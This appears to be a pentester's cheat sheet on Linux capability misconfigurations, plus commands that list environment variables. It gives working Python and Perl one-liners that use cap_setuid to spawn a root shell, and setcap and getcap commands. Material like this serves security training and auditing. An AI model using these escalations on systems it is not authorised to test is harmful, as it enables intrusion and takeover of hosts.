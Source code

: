 Linux file capabilities allow a program to have privileges without needing to be setuid-root. Misconfigured capabilities can lead to privilege escalation.

- **[GTFO Bins](https://gtfobins.github.io/)**

#### Finding Files with Capabilities
- **List All Files with Special Capabilities Set:**
	```bash
	getcap -r / 2>/dev/null
	```
- **Exploit `cap_setuid+ep` on a Binary:**
	```bash
	./binary id
	```
- **Exploit Capabilities on Python:**
	```bash
	python -c 'import os; os.setuid(0); os.system("/bin/sh")'
	```

#### Manipulating Capabilities
- **Add Capabilities to a Binary:**
	```bash
	setcap cap_setuid+ep /path/to/binary
	```

#### Exploiting Misconfigured Capabilities
- **`/usr/bin/python2.7`:** Allows setting UID, making privilege escalation possible.
	```bash
	/usr/bin/python2.7 = cap_setuid+ep
	python2 -c 'import os; os.setuid(0); os.system("/bin/sh")'
	```
- **`/usr/bin/perl`:** Similar to Python; allows UID switching.
	```bash
	/usr/bin/perl = cap_setuid+ep
	perl -e 'use POSIX qw(setuid); setuid(0); exec "/bin/sh";'
	```
- **`/usr/bin/env`:** Allows binding to privileged ports, which could lead to unintended behaviors.
	```bash
	/usr/bin/env = cap_net_bind_service+ep
	```

# Environmental Variables

#### Environment Variables
- **List Current Environment Variables:**
	```bash
	env
	```
- **Prints all environment variables:**
	```bash
	printenv
	```
- **Displays the PATH variable:**
	```bash
	echo $PATH
	```

